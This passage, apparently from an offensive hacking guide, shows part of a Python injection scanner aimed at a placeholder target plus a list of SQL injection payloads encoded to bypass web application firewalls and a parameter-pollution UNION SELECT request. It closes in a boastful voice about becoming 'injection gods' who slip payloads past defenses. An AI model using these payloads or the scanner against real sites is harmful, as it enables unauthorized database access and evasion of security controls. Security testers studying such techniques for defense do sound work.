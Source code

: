 ```python
    def detect_sqli(self, response):
        indicators = [
            "sql syntax", "mysql_fetch", "ora-", "postgresql",
            "microsoft ole db", "odbc driver", "pdoexception"
        ]
        return any(indicator in response.text.lower() for indicator in indicators)
    
    def detect_cmd_injection(self, response):
        indicators = ["www-data", "root", "bin/bash", "uid=", "gid="]
        return any(indicator in response.text for indicator in indicators)

# Usage
scanner = InjectionScanner("http://target.com")
scanner.test_sql_injection("/products", {"id": "1"})
scanner.test_command_injection("/ping", {"ip": "8.8.8.8"})
```

---

## **PREVENTION & BYPASS TECHNIQUES** 🛡️⚔️

### **WAF Bypass Methods:**
```sql
-- URL encoding
' OR 1=1 --    →    %27%20OR%201%3D1%20--

-- Double URL encoding  
' OR 1=1 --    →    %2527%2520OR%25201%253D1%2520--

-- Unicode normalization
' OR 1=1 --    →    %u0027%u0020OR%u00201%u003D1%u0020--

-- Case manipulation
' Or 1=1 --    →    Mixed case bypass

-- Comment injection
'/**/OR/**/1=1--
```

### **Parameter Pollution:**
```http
GET /products?id=1&id=2' UNION SELECT 1,2,3--
```

This is how we become injection gods, We systematically test every fucking input, understand the backend technology, and craft payloads that slip past defenses like ghosts through walls.
